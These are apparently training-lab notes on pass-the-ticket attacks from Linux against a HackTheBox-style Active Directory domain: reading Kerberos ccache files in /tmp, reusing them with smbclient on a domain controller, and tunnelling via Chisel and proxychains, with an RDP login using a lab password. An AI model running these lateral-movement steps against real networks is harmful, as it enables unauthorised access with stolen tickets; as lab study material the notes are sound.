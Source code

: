 ```

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass
```

## finding ccache files

```shell-session
$ env | grep -i krb5
```
default,  ccaches are stored at `/tmp`.
```shell-session
$ ls -la /tmp
```
## Using Linux attack tools with Kerberos
we need to ensure our `KRB5CCNAME` environment variable is set to the ccache file

In case we are attacking from a machine that is not a member of the domain, for example, our attack host, we need to make sure our machine can contact the KDC or Domain Controller, and that domain name resolution is working.
To use Kerberos, we need to proxy our traffic via `MS01` with a tool such as [Chisel](https://github.com/jpillora/chisel) and [Proxychains](https://github.com/haad/proxychains) and edit the `/etc/hosts`
```shell-session
cat /etc/hosts

# Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

We need to modify our proxychains configuration file to use socks5 and port 1080.
```shell-session
cat /etc/proxychains.conf

...SNIP...

[ProxyList]
socks5 127.0.0.1 1080
```
We must download and execute [chisel](https://github.com/jpillora/chisel) on our attack host.
```shell-session
$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
]$ gzip -d chisel_1.7.7_linux_amd64.gz
$ mv chisel_* chisel && chmod +x ./chisel
$ sudo ./chisel server --reverse 
```
Connect to `MS01` via RDP and execute chisel (located in C:\Tools).

```shell-session
xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```
